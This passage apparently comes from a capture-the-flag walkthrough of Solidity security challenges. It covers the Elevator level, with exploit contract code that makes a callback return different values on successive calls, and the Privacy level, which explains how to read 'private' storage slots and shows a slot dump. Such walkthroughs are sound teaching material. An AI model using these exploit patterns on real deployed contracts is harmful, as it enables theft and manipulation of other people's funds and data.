 ## 11. Elevator

The goal is to set the `top` variable of the Elevator contract to `true`.
The only code path to set this variable is by having the `isLastFloor` function return `false` for the `if` condition and `true` the second time for the variable assignment.

```solidity
Building building = Building(msg.sender);

if (! building.isLastFloor(_floor)) {
  floor = _floor;
  top = building.isLastFloor(floor);
}
```

As we can control the `msg.sender` contract, this is easy to do:

```solidity
// storage, persists throughout function calls
uint256 timesCalled;

function attack() external payable {
    challenge.goTo(0);
}

function isLastFloor(uint256 /* floor */) external returns (bool) {
    timesCalled++;
    if (timesCalled > 1) return true;
    else return false;
}
```

## 12. Privacy

Here, we need to read a "private" storage variable.
The `private` visibility modifier only says that other contracts are not allowed to read it.
Using ethers.js we can still read the storage variable.

Read [this documentation page](https://docs.soliditylang.org/en/v0.6.8/internals/layout_in_storage.html) on how storage is laid out in Solidity.
Basically storage is a mapping function `storage(slot) : 2^256 -> 2^256` from 32-byte integers to 32-byte integers.
Every primitive variable occupies a storage "slot" (index in the 256-bit domain) where it stores its data.
Several continuous variables that occupy less than 256-bit storage space can be packed into a single one.
More complex data structures where the size is not known at compile-time like mappings, or **dynamically**-sized arrays use hash-functions to compute where to store each entry.

The contract's storage will look like this:

```bash
0:       0x0000000000000000000000000000000000000000000000000000000000000001 (1)
1:       0x000000000000000000000000000000000000000000000000000000005ff64a80 (1609976448)
2:       0x000000000000000000000000000000000000000000000000000000004a80ff0a (now=0x4a80, 255=0xff, 10=0xa)
3:       0x8de895aac60c474d0d1bd8fdb7fdc79a6f069101c77f810605e4520f72566874 (data[0])
4:       0xe514d3b3085d092bcc598cc8357dbadc60b34b4cd6af88333e9e8aad9af81c9a (data[1])
5:       0x35c226031a34414845c12c4d7a7e817d3e639e98f9a89258e3a249c3427da3e4 (data[2])
6:       0x0000000000000000000000000000000000000000000000000000000000000000 (0)
```
